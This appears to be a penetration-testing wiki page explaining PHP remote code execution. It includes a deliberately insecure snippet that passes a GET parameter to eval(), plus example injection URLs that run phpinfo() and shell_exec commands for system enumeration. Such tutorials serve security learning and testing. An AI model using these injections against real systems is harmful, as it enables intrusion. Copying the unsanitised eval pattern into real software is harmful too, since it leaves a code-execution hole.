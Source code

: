 # Remote code execution

Remote code execution \(RCE\), also known as code injection, refers to executing commands directly on the underlying operating system via the web application, in the language of the web application.

You should also check out the page on [shells](/hackers-grimoire/exploitation/shells.md).

## Basic technique

The following php snippet will take the `GET` parameter `code` and run it through the `eval()` function without any input sanitization:

```text
<?php $code = $_GET['code'];
eval($code); ?>
```

The `eval()` function evaluates the contents as php code, which means we can provide any php code as an argument. The code injection would look like this:

```text
http://[host]/page.php?code=phpinfo();
```

## Remote command execution

You might also be able to execute single-line system commands like `system('id');`. For multi-line system commands, use `shell_exec`:

```text
http://[host]/page.php?code=echo shell_exec('/sbin/ifconfig eth0');
```

This method is useful for both system enumeration and shell injection. Make sure to use absolute paths for calling system files, or the web application may not find them.


